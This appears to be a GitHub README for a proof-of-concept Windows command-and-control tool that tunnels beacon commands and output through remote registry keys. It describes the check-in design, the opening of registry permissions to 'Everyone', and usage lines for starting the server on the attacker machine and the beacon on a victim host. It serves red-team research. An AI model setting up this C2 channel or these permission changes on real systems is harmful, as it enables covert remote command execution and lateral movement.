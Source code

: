 # Everything Can Be A Shell... An asynchronous shell at least...



## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell using Windows Registry keys. However, I hope to add more in the future. *

## Concept of this repository
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

## C2 using Windows registry keys

### Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

### Demo:
[![Demo](https://img.youtube.com/vi/jOPCbK-WF1M/0.jpg)](https://www.youtube.com/watch?v=jOPCbK-WF1M)

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to read & write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only really be suitable for lateral movement on local networks, however I have not tested it over the internet. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. Think of this used defined registry key as the port (LHOST).
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will connect to the C2 server using WinReg, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When it is time to check-in, the client executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's registry keys "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic
